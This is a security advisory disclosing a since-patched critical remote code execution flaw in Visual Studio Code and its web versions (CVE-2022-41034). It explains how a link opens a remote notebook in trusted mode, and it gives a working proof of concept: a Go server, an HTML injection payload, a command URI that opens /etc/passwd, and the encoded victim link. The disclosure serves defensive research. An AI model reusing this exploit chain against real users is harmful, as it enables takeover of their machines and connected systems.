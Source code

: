 ```yaml
---
title: 'Visual Studio Code: Remote Code Execution'
severity: Critical
ghsa_id: GHSA-pw56-c55x-cm9m
cve_id: CVE-2022-41034
weaknesses: []
products:
- ecosystem: Microsoft
  package_name: Visual Studio
  affected_versions: v1.4.0 - v1.71.1
  patched_versions: v1.73.1
cvss: null
credits:
- github_user_id: Zemnmez
  name: Thomas Neil James Shadwell
  avatar: https://avatars.githubusercontent.com/u/4625198?s=40&v=4
---
```


### Summary
An attacker could, through a link or website, take over the computer of a Visual Studio Code user and any computers they were connected to via the [Visual Studio Code Remote Development](https://code.visualstudio.com/docs/remote/remote-overview) feature. This issue affected at least [GitHub Codespaces](https://github.com/features/codespaces), [github.dev](http://github.dev/), the web-based [Visual Studio Code for Web](https://code.visualstudio.com/blogs/2021/10/20/vscode-dev) and to a lesser extent Visual Studio Code desktop.

### Severity
Critical - This vulnerability allows remote code execution for any computer connected via Visual Studio Code.

### Proof of Concept
Visual Studio Code places various levels of security restriction on content opened in the editor to prevent a malicious attacker creating a view window that is able to execute a ‘command:’ link.

A primary method by which the editor performs these restrictions is the internal trust model, which retains an ‘isTrusted’ annotation when views are opened. Documents that are opened with ‘isTrusted’ set to true are able to execute ‘command:’ URIs, as well as [directly create](https://github.com/microsoft/vscode/blob/c6698eacedf365c2f152f1df85a79bd6da71fa02/extensions/notebook-renderers/src/index.ts#L257) unsafe HTML in Jypiter Notebook mode.

A Jypiter Notebook is a type of rich text document supported out of the box by Visual Studio Code. Used primarily in data science, it is made up of multiple segments of Python code, Markdown, HTML and other formats. The Python code is run on the viewer machine to generate diagrams. Because running potentially foreign or malicious code is dangerous, a Jypiter notebook normally starts in untrusted mode and the user is shown a dialog to confirm trust. When the document is trusted most security restrictions are bypassed.

Each Visual Studio Code window is its own instance of Visual Studio Code. To facilitate opening the same file in a new editor window, an ‘openFile’ parameter [is provided](https://github.com/microsoft/vscode/blob/f6a08e816d98ff72df37a1af4165742366fe2235/src/vs/workbench/services/environment/browser/environmentService.ts#L334) for the editor internals to construct. openFile is a ‘payload’ parameter, where ‘payload’ is a series of flags given to the editor via URL query parameters when it starts. Files opened this way are opened in trusted mode because the editor assumes that it was triggered by a user gesture in the editor.

The payload parameter is a query-encoded JSON. The unencoded form for opening a local file from ``` c:/something.txt ``` looks like this: ``` [["openFile","file://c:/something.txt"]]``` . This then becomes ``` ?payload=%5B%5B%22openFile%22%2C%22file%3A%2F%2Fc%3A%2Fsomething.txt%22%5D%5D. ```

We can prepare an HTTP server that always allows its remote content to be downloaded via CORS. If Visual Studio Code loads this remote file from a URL that ends in ‘.ipynb’, it will be opened as a Jypiter Notebook in trusted mode immediately when the user follows the link.

```go
// https://golang.org
package main

import "net/http"

const file = `{
 "cells": [
  {
   "cell_type": "markdown",
   "metadata": {},
   "source": [
    "<img src=a onerror=\"let q = document.createElement('a');q.href='command:workbench.action.terminal.new?
%7B%22config%22%3A%7B%22executable%22%3A%22vim%22%2C%22args%22%3A%5B%22%2Fetc%2Fpasswd%22%5D%
7D%7D';document.body.appendChild(q);q.click()\"/>"
   ]
  }
]}`

func Do() (err error) {
	return http.ListenAndServe(":http-alt" /* 8080 */, http.HandlerFunc(func(rw http.ResponseWriter, rq *http.Request) {
		rw.Header().Set("Access-Control-Allow-Origin", "*")
		rw.Write([]byte(file))
	}))
}

func main() {
	if err := Do(); err != nil {
		panic(err)
	}
}
```
The contents of the ‘file’ in this code are a single Markdown cell in ipynb format. Because Markdown [allows arbitrary HTML](https://daringfireball.net/projects/markdown/syntax#html), in trusted mode, we can inject any HTML code we want into the webview.

For legacy security reasons, you can’t run JavaScript code directly from <script> tags in HTML code that is injected after the page fully loads. To mitigate this our code creates an image, an ``` <a>``` tag with a target that does not exist. The tag is configured so that upon the immediate failure it runs our JavaScript code.

Because ‘command:’ is not a standard browser feature, VSCode injects this functionality by detecting when an ‘a’ element, a link is added to the document. Our JavaScript code creates this link, adds it to the page and then immediately clicks it as though the user did themselves.

This gives us the ability to run arbitrary commands via the ``` command:``` URI feature but to take over the victim’s computer or the computer they’re connected to, we need to issue commands directly to the victim’s machine. We start with the command ‘[workbench.action.terminal.new](https://github.com/microsoft/vscode/blob/3e4e3518165e78181d2275e7745a8a59cea32e18/src/vs/workbench/contrib/terminal/browser/terminalActions.ts#L1874)’. This identifier isn’t documented, but can be found in the source code.

Command URIs may [specify](https://github.com/microsoft/vscode/blob/e8eb39bac26ddc87f27ed69fa06c54cd230d18f9/src/vs/editor/browser/services/openerService.ts#L50) ‘args’ in the query component of the URI, which are [passed to the command](https://github.com/microsoft/vscode/blob/e8eb39bac26ddc87f27ed69fa06c54cd230d18f9/src/vs/workbench/services/commands/common/commandService.ts#L88) as though it was called directly from JavaScript. ‘workbench.action.terminal.new’ can take an [ICreateTerminalOptions](https://github.com/microsoft/vscode/blob/962c94e0472b94f90bdbbd2fcea85962a2fb12ff/src/vs/workbench/contrib/terminal/browser/terminal.ts#L276) object which itself has an [IShellLaunchConfig](https://github.com/microsoft/vscode/blob/b91245de85dc5429ad340fa491abaa4510da4ec4/src/vs/platform/terminal/common/terminal.ts#L410) object as its ‘config’ parameter. IShellLaunchConfig has an ‘executable’ parameter which lets you override the command the program tries to run when it starts.

Thus, our command [URI](command:workbench.action.terminal.new?%7B%22config%22%3A%7B%22executable%22%3A%22vim%22%2C%22args%22%3A%5B%22%2Fetc%2Fpasswd%22%5D%7D%7D), which makes the user launch a new terminal, and instructs that terminal to run ‘vim /etc/passwd’. This opens the password file of the user’s computer, demonstrating our ability to run code on their machine.

Once the server described above is run, when victim clicks a prepared link (for example ``` https://vscode.dev/?payload=%5B%5B%22openFile%22,%22https://%5Bserver_location_goes_here%5D/something.ipynb%22 ```) VSCode will load the file, detect it as a Jypiter Notebook, and immediately run a command on the user’s machine.


### Further Analysis
This vulnerability affected vscode.dev, CodeSpaces and may affect other web-based implementations of VSCode OSS.  VSCode vulnerability [disclosure](https://github.com/microsoft/vscode/security/advisories/GHSA-q6rv-h25q-6pj6).  

This vulnerability has been remediated by [Microsoft patch](https://github.com/microsoft/vscode/commit/d2cff714d5410c570043e259fd72c75bbf387b7a)

### Timeline
**Date reported**: 8/24/2022
**Date fixed**: 10/11/2022
**Date disclosed**: 11/22/2022